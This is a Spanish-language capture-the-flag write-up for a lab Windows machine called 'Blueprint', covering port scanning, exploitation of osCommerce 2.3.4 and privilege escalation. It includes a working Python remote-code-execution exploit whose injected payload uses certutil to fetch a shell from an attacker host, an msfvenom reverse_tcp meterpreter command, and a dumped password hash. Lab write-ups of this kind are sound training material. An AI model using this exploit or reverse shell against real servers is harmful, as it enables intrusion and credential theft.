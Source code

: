 ![image](https://github.com/user-attachments/assets/34f83e52-5920-46f4-8a40-f1b3eb4483c3)<h1 align="center">Blueprint</h1>

# INTRODUCCIÓN

Nos enfrentamos a una máquina Windows en la que deberemos escalar privilegios.

## TEST DE CONECTIVIDAD

![image](https://github.com/user-attachments/assets/b54666ac-9172-42ff-b695-3e06372ab6d8)

## ESCANEO DE PUERTOS


Starting Nmap 7.60 ( https://nmap.org ) at 2024-08-20 08:31 BST
Nmap scan report for ip-10-10-51-138.eu-west-1.compute.internal (10.10.51.138)
Host is up (0.18s latency).
Not shown: 787 filtered ports, 200 closed ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: 404 - File or directory not found.
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds Windows 7 Home Basic 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql        MariaDB (unauthorized)
8080/tcp  open  http         Apache httpd 2.4.23 (OpenSSL/1.0.2h PHP/5.6.28)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.23 (Win32) OpenSSL/1.0.2h PHP/5.6.28
|_http-title: Index of /
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:D3:E0:71:8A:83 (Unknown)
Service Info: Hosts: www.example.com, BLUEPRINT, localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -2s, deviation: 0s, median: -2s
|_nbstat: NetBIOS name: BLUEPRINT, NetBIOS user: <unknown>, NetBIOS MAC: 02:d3:e0:71:8a:83 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Home Basic 7601 Service Pack 1 (Windows 7 Home Basic 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1
|   Computer name: BLUEPRINT
|   NetBIOS computer name: BLUEPRINT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-08-20T08:32:18+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-08-20 08:32:18
|_  start_date: 2024-08-20 08:29:45

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Después de tantas cosas vamos a explorar parte por parte.

Primero de todo el puerto 80 HTTP a ver que encontramos.

No encontramos nada importante, pero si probamos el puerto 443 si que encontramso cositas importantes.

![image](https://github.com/user-attachments/assets/b8cee081-bb4d-483d-a6bb-04f6cd4fd336)

Gracias a esto vemos que utiliza "oscommerce" en la verisón 2.3.4 busquemos a ver si encontramos algo.

![image](https://github.com/user-attachments/assets/d20678af-6230-4d3a-b30e-b6a59114a198)


```
import requests

# enter the the target url here, as well as the url to the install.php (Do NOT remove the ?step=4)
base_url = "http://10.10.41.176:8080/oscommerce-2.3.4/catalog/"
target_url = "http://10.10.41.176:8080/oscommerce-2.3.4/catalog/install/install.php?step=4"

data = {
    'DIR_FS_DOCUMENT_ROOT': './'
}

# the payload will be injected into the configuration file via this code
# '  define(\'DB_DATABASE\', \'' . trim($HTTP_POST_VARS['DB_DATABASE']) . '\');' . "\n" .
# so the format for the exploit will be: '); PAYLOAD; /*

payload = '\');'
payload += '$var = shell_exec("cmd.exe /C certutil -urlcache -split -f http://10.10.75.213/shell.php shell.php");'
payload += 'echo $var;'
payload += '/*'


data['DB_DATABASE'] = payload

# exploit it
r = requests.post(url=target_url, data=data)

if r.status_code == 200:
    print("[+] Successfully launched the exploit. Open the following URL to execute your code\n\n" + base_url + "install/includes/configure.php")
else:
    print("[-] Exploit did not execute as planned")
```

Vamos a probar si funciona cambiando la url importante.

De tanto probar no me habia dado cuenta que jamás me habría dejado por el puerto 443 por ssl, encontramos que también hay la misma página alojada por el puerto 8080 osea que voy a probar con eso.

```
shell_exec("cmd.exe /C certutil -urlcache -split -f http://10.10.75.213/shell.php shell.php");'
```

Por este comando deberemos crear una shell.php y un servidor de python

![image](https://github.com/user-attachments/assets/c490995b-1d67-4c77-8f10-0a52cf0c88ab)

```
python -m http.server
```

A mi esta forma me ha fallado por todos los lados voy a utilizar metasploit losiento.

![image](https://github.com/user-attachments/assets/de79252e-8c59-40b8-923d-cd63c6fe5d61)

![image](https://github.com/user-attachments/assets/ba468196-f37f-49c8-8795-ae643a70a353)

Ahora deberemos crear una nueva session y meter el payload para tener una buena shell

Control + z y ponemos en background la sesión.

![image](https://github.com/user-attachments/assets/2eea2e51-cc11-4dc6-87d2-46e0981b688b)

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.153.147 LPORT=<Your Port to Connect On> -f exe > shell.exe
```
Ya con esto creado la metemos dentro de la msfconsole descargandolo

```
upload /root/shell.exe
```

![image](https://github.com/user-attachments/assets/2dfbe18c-5c87-40ec-baa4-b051c6f4db6a)

Mientras estamos con otra msfconsole con una munti/handler con el payload de reverse_tcp

![image](https://github.com/user-attachments/assets/d7090432-e181-4192-b925-9cf79fd80891)

Ya dentro sacamos los hashes y ademas estamos como roots

![image](https://github.com/user-attachments/assets/7d920433-40a4-4f5c-8a38-1872c660411c)

El hash que tenemos que sacar es el segundo osea : 30e87bf999828446a1c1209ddde4c450

Con esto ya tenemos el hash y la ruta del root

en C:\Users\Administrator\Desktop\root.txt

GG
